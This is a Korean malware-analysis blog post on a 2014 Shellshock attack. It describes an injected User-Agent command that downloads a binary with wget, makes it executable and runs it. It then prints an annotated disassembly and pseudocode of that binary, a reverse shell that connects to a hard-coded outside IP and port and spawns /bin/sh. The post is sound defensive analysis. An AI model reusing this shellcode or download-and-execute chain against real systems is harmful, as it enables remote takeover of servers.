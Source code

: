```yaml
---
layout: post
title: CVE-2014-6271 linux zero-day attack
date: 2014-09-29 11:35:26.000000000 +09:00
type: post
published: true
status: publish
categories:
- Malware Analysis
tags:
- 0day
- bash
- shellcode
author: "n0fate"
---
```

<p>취약점이 발표되고 하루 뒤, 리눅스 시스템을 대상으로 0day 공격이 시작되었다. 공격자는 HTTP 헤더 중 'User-Agents' 에 취약점을 삽입하여 다 수의 서버를 대상으로 공격을 수행하였다. 다음은 HTTP 요청 패킷 중 공격 코드만 잘라낸 것이다.</p>
<p><img class="aligncenter  wp-image-1317" src="{{ site.baseurl }}/assets/003.png" alt="003" width="710" height="97" /></p>
<p>위 내용은 다음과 같은 명령을 수행한다.</p>
<ol>
<li>wget으로 www.0rz.it의 fu4k 바이너리를 /tmp/fu4k 로 저장한다. 현재 저 주소는 막혀있다.</li>
<li>chmod로 저장한 악성코드에 실행 권한을 준다.</li>
<li>저장한 악성코드를 실행한다.</li>
</ol>
<p>이 악성코드는 152바이트 크기를 가지는 매우 작은 바이너리로 코드를 분석해보면, 리버스 쉘을 제공하는 프로그램이다.</p>
<pre class="lang:asm decode:true" title="2485040231A35B7A465361FAF92A512D">LOAD:08048000 ; Input MD5 : 2485040231A35B7A465361FAF92A512D
LOAD:08048000 ; Input CRC32 : 1F643AE0
LOAD:08048000
LOAD:08048000 ; File Name : /Users/n0fate/Dropbox/malware/Shellshock/fu4k/2485040231a35b7a465361faf92a512d
LOAD:08048000 ; Format : ELF for Intel 386 (Executable)
LOAD:08048000 ; Imagebase : 8048000
LOAD:08048000 ;
LOAD:08048000
LOAD:08048000 .686p
LOAD:08048000 .mmx
LOAD:08048000 .model flat
LOAD:08048000 .intel_syntax noprefix
LOAD:08048000
LOAD:08048000 ; ===========================================================================
LOAD:08048000
LOAD:08048000 ; Segment type: Pure code
LOAD:08048000 ; Segment permissions: Read/Write/Execute
LOAD:08048000 LOAD segment mempage public 'CODE' use32
LOAD:08048000 assume cs:LOAD
LOAD:08048000 ;org 8048000h
LOAD:08048000 assume es:nothing, ss:nothing, ds:LOAD, fs:nothing, gs:nothing
LOAD:08048000 dword_8048000 dd 464C457Fh, 10101h, 2 dup(0) ; DATA XREF: LOAD:0804803Co
LOAD:08048000 ; LOAD:08048040o
LOAD:08048010 dd 30002h, 1, 8048054h, 34h, 2 dup(0)
LOAD:08048028 dd 200034h, 1, 0
LOAD:08048034 dd 1, 0
LOAD:0804803C dd offset dword_8048000
LOAD:08048040 dd offset dword_8048000
LOAD:08048044 dd 98h, 0DCh, 7, 1000h
LOAD:08048054 ; ---------------------------------------------------------------------------
LOAD:08048054
LOAD:08048054 public start
LOAD:08048054 start:
LOAD:08048054 xor ebx, ebx
LOAD:08048056 mul ebx
LOAD:08048058 push ebx ; IPPROTO_IP
LOAD:08048059 inc ebx
LOAD:0804805A push ebx ; SOCK_STREAM
LOAD:0804805B push PF_INET ; https://github.com/xiam/harmful-stuff/blob/master/bind/bind-linux-x86.asm
LOAD:0804805D mov ecx, esp ; ecx*-&gt;stack_arguments
LOAD:0804805F mov al, 102 ; socketcall
LOAD:08048061 int 80h ; LINUX -
LOAD:08048063 xchg eax, ebx ; ebx = save socket file description
LOAD:08048064 pop ecx ; ecx = 2
LOAD:08048065
LOAD:08048065 connect: ; CODE XREF: LOAD:0804806Aj
LOAD:08048065 mov al, 63 ; dup2(socket, stderr/out/in)
LOAD:08048067 int 80h ; LINUX -
LOAD:08048069 dec ecx ; stderr, stdout, stdin (2,1,0)
LOAD:0804806A jns short connect ; connect to stdin/out/err description
LOAD:0804806C push 0E09F131Bh ; IP : 27.19.159.224
LOAD:08048071 push 0C1110002h ; Port : 0x11C1(4545)
LOAD:08048071 ; AF_INET : 0x0002
LOAD:08048076 mov ecx, esp ; server sockstruct
LOAD:08048078 mov al, 102 ; socketcall
LOAD:0804807A push eax ; 102 -&gt; sizeof socket structure
LOAD:0804807B push ecx ; server struct pointer
LOAD:0804807C push ebx ; socket file descriptor
LOAD:0804807D mov bl, 3 ; _connect()
LOAD:0804807D ; connect(socket, [AF_INET, 4545, 27.19.159.224, 102])
LOAD:0804807F mov ecx, esp ; ecx -&gt; argument array
LOAD:08048081 int 80h ; LINUX -
LOAD:08048083 push edx ; null
LOAD:08048084 push 'hs//'
LOAD:08048089 push 'nib/'
LOAD:0804808E mov ebx, esp ; put the address of "/bin//sh" into ebx, via esp
LOAD:08048090 push edx ; NULL
LOAD:08048091 push ebx ; '/bin/sh'
LOAD:08048092 mov ecx, esp ; Pointer of {'/bin/sh, NULL}
LOAD:08048094 mov al, 11 ; execve
LOAD:08048094 ; execve('/bin//sh', ['/bin//sh', NULL]);
LOAD:08048096 int 80h ; LINUX -
LOAD:08048096 ; ---------------------------------------------------------------------------
LOAD:08048098 dd 11h dup(?) ; It's reverse shell
LOAD:08048098 LOAD ends ; http://www.backtrack-linux.org/forums/archive/index.php/t-51108.html
LOAD:08048098 ; ######################################################
LOAD:08048098 ; pseudo code:
LOAD:08048098 end start ;
LOAD:08048098 ; int i = 2
LOAD:08048098 ; int s = socket(PF_INET, SOCK_STREAM, IPPROTO_IP)
LOAD:08048098 ; int iRet = 0
LOAD:08048098 ; while iRet != 0:
LOAD:08048098 ; dup2(s, i)
LOAD:08048098 ; i -= 1
LOAD:08048098 ;
LOAD:08048098 ; connect(s, [AF_INET, 4545, '27.19.159.224', 102])
LOAD:08048098 ; execve('/bin//sh', ['bin//sh', NULL], [NULL])
LOAD:08048098 ; ######################################################</pre>
<p>공격자는 소켓을 stdin, stdout, stderr와 연결시키고 27.19.159.224:4545 에 연결을 시도한다. 이 서버는 중국에 있는 후한시에 있는 것으로 나타나 있다.</p>
<p><img class="aligncenter size-full wp-image-1318" src="{{ site.baseurl }}/assets/004.png" alt="004" width="849" height="593" /></p>
<p>&nbsp;</p>
<p>Reference</p>
<p>Malware Must Die!, Linux ELF bash 0day: The fun has only just begun..., http://blog.malwaremustdie.org/2014/09/linux-elf-bash-0day-fun-has-only-just.html</p>

